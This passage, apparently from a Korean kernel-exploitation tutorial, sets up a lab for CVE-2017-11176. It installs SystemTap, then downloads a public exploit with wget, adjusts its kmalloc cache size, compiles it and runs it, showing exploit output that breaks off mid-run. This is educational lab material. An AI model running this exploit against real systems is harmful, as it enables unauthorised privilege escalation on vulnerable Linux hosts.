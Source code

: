 ```bash
# apt install systemtap
```

마지막으로 다 잘 되었는지 확인해보자:

```plaintext
# stap -v -e 'probe vfs.read {printf("read performed\n"); exit()}'
stap: Symbol `SSL_ImplementedCiphers' has different size in shared object, consider re-linking
Pass 1: parsed user script and 106 library script(s) using 87832virt/32844res/5328shr/28100data kb, in 100usr/10sys/118real ms.
Pass 2: analyzed script: 1 probe(s), 1 function(s), 3 embed(s), 0 global(s) using 202656virt/149172res/6864shr/142924data kb, in 1180usr/730sys/3789real ms.
Pass 3: translated to C into "/tmp/stapWdpIWC/stap_1390f4a5f16155a0227289d1fa3d97a4_1464_src.c" using 202656virt/149364res/7056shr/142924data kb, in 0usr/20sys/23real ms.
Pass 4: compiled C into "stap_1390f4a5f16155a0227289d1fa3d97a4_1464.ko" in 6310usr/890sys/13392real ms.
Pass 5: starting run.
read performed                                      // <--------------
Pass 5: run completed in 10usr/20sys/309real ms.
```

### Last Minute Checks
##### Updated (2018-10-22)

system tap 외에도 타겟 커널은 익스플로잇을 컴파일하고 실행하는 데 사용될 것이다. 그러니 다음 명령어를 실행하자:

```bash
# apt install binutils gcc
```

그리고 [익스플로잇](https://github.com/lexfo/linux/blob/master/cve-2017-11176.c)을 다음 명령어로 다운로드하자:

```bash
$ wget https://raw.githubusercontent.com/lexfo/linux/master/cve-2017-11176.c
```

**제시된 타겟과 문서에서 사용하는 타겟의 차이로 인해 여기서 이용되는 "used-after-freed" 오브젝트는 "kmalloc-1024"가 아닌 "kmalloc-2048" 캐시에 있다.** 따라서 아래 라인을 익스플로잇에서 수정하자:

```c
define KMALLOC_TARGET 2048 // instead of 1024
```

이는 타겟이 정해진 익스플로잇에서 발생하는 문제점이다. part 3를 읽으면 수정한 이유를 알게 될 것이다. 이제 익스플로잇을 빌드하고 실행해보자:

```bash
$ gcc -fpic -O0 -std=c99 -Wall -pthread cve-2017-11176.c -o exploit
$ ./exploit
[ ] -={ CVE-2017-11176 Exploit }=-
[+] successfully migrated to CPU#0
[+] userland structures allocated:
[+] g_uland_wq_elt = 0x120001000
[+] g_fake_stack   = 0x20001000
[+] ROP-chain ready
[ ] optmem_max = 20480
[+] can use the 'ancillary data buffer' reallocation gadget!
[+] g_uland_wq_elt.func = 0xffffffff8107b6b8
[+] reallocation data initialized!
[ ] initializing reallocation threads, please wait...
[+] 200 reallocation threads ready!
[+] reallocation ready!
[+] 300 candidates created
[+] parsing '/proc/net/netlink' complete
[+] adjacent candidates found!
[+] netlink candidates ready:
[+] target.pid = -4590
[+] guard.pid  = -4614
[ ] preparing blocking netlink socket
[+] receive buffer reduced
```